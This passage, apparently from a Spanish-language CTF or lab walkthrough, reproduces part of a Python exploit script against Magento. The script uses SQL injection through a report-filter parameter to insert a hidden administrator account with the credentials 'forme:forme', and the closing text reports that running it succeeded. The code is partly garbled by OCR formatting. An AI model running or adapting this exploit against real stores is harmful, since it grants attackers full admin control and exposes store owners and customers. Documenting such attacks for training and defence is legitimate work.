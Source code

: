 ```bash
 lognum 
```
,
```bash
 reload_acl_flag 
```
,
```bash
 is_active 
```
,
```bash
 extra 
```
,
```bash
 rp_token 
```
,
```bash
 rp_token_created_at 
```
) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO 
```bash
 admin_role 
```
 (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"
```

Lanzamos el script con el commando 
```bash
 python3 magento_rce.py 
```
 y nos dice que el script a funccionado y a creado un usuario forme con la contraseña forme.
